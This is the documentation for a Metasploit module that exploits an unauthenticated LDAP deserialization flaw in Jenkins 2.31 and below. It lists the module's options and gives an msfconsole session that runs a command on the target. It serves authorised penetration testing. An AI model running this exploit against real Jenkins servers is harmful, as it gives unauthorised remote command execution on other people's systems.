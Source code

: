 ## Vulnerable Application

Jenkins 2.31 or below is vulnerable and can be downloaded from [updates.jenkins-ci.org](https://updates.jenkins-ci.org/download/war/2.31/jenkins.war)

This vulnerability does not require authentication and only HTTP access to the vulnerable application is required.


## Verification Steps

  1. Download [jenkins 2.31](https://updates.jenkins-ci.org/download/war/2.31/jenkins.war)
  2. Install jenkins ```java -jar jenkins.war```
  3. Start ```msfconsole```
  4. Do: ```use exploit/linux/misc/jenkins_ldap_deserialize```
  5. Do: ```set RHOST [target host]```
  6. Do: ```set PAYLOAD cmd/unix/generic```
  7. Do: ```set CMD 'touch /tmp/wtf'```
  8. Do: ```run```
  7. It should create /tmp/wtf on the target host.

## Required Options

  **RHOST**

  The address of the jenkins server.


## Options

### RPORT

  The http port for the jenkins server. (Defaults to 8080)

### TARGETURI

  The path to the target instance of Jenkins. (Defaults to /)

### SRVHOST

  The local address to listen for the LDAP request on. (Defaults to 127.0.0.1)

### SRVPORT

  The local port to listen for the LDAP request on. (Defaults to 1389)

### LDAPHOST

  The ldap host the exploit will connect to. Can be different from ```SRVHOST``` if in a environment where there is port forwarding. (Defaults to 127.0.0.1)


## Scenarios

  Example usage against a unix target running Jenkins 2.31.

  ```
  msf > use exploit/linux/misc/jenkins_ldap_deserialize
  msf exploit(jenkins_ldap_deserialize) > set TARGETURI /
  TARGETURI => /
  msf exploit(jenkins_ldap_deserialize) > set RHOST 127.0.0.1
  RHOST => 127.0.0.1
  msf exploit(jenkins_ldap_deserialize) > set RPORT 8080
  RPORT => 8080
  msf exploit(jenkins_ldap_deserialize) > set PAYLOAD cmd/unix/generic
  PAYLOAD => cmd/unix/generic
  msf exploit(jenkins_ldap_deserialize) > set CMD 'touch /tmp/wtf'
  CMD => touch /tmp/wtf
  msf exploit(jenkins_ldap_deserialize) > run
  [*] Exploit completed, but no session was created.

  ```
